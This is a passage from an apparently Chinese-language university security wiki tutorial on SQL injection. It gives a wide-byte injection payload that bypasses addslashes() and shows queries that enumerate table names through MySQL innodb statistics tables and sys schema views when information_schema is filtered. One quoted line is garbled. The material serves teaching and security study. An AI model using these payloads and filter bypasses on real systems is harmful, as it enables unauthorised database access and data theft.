 ### 宽字节注入[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#宽字节注入)

在 GB2312、GBK、GB18030、BIG5、Shift_JIS 等编码下来吃掉 ASCII 字符的方法，可以用来绕过 `addslashes()``id=0%df%27%20union%20select%201,2,database();`

![img](C:\Users\24993\Desktop\博客文章\static\boxcnaRtyUGC0sX3btnFIgpDCob.png)

### information_schema 被过滤[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#information-schema-被过滤)

在 SQL 注入中， `infromation_schema` 库的作用无非就是可以获取到 `table_schema, table_name, column_name` 这些数据库内的信息。

#### MySQL 5.6 的新特性[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#mysql-5-6-的新特性)

在 MySQL 5.5.x 之后的版本，MySQL 开始将 innoDB 引擎作为 MySQL 的默认引擎，因此从 MySQL 5.6.x 版本开始，MySQL 在数据库中添加了两张表， `innodb_index_stats` 和 `innodb_table_stats` ，两张表都会存储数据库和对应的数据表。

因此，从 MySQL 5.6.x 开始，有了取代 `information_schema` 的表名查询方式，如下所示

python

```
select table_name from mysql.innodb_index_stats where database_name=*database*();
select table_name from mysql.innodb_table_stats where database_name=*database*();
```

1
2

![img](C:\Users\24993\Desktop\博客文章\static\boxcnbMtjAq8osStjcSbFuIdDSc.png)

#### MySQL 5.7 的新特性[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#mysql-5-7-的新特性)

由于 `performance_schema` 过于发杂，所以 MySQL 在 5.7 版本中新增了 `Sys schema` 视图，基础数据来自于 `performance_chema` 和 `information_schema` 两个库。

而其中有这样一个视图， `schema_table_statistics_with_buffer,x$schema_table_statistics_with_buffer` ，我们可以翻阅官方文档对其的解释

> 查询表的统计信息，其中还包括 InnoDB 缓冲池统计信息，默认情况下按照增删改查操作的总表 I/O 延迟时间（执行时间，即也可以理解为是存在最多表 I/O 争用的表）降序排序，数据来源：performance_schema.table_io_waits_summary_by_table、sys.x、����ℎ��������������������、���.�innodb_buffer_stats_by_table

其中就包含了存储数据库和对应的数据表，于是就有了如下的表名查询方式

sql

```
select table_name from sys.schema_table_statistics_with_buffer where table_schema=*database*();
select table_name from sys.x$schema_table_statistics_with_buffer where table_schema=*database*();
```

1
2
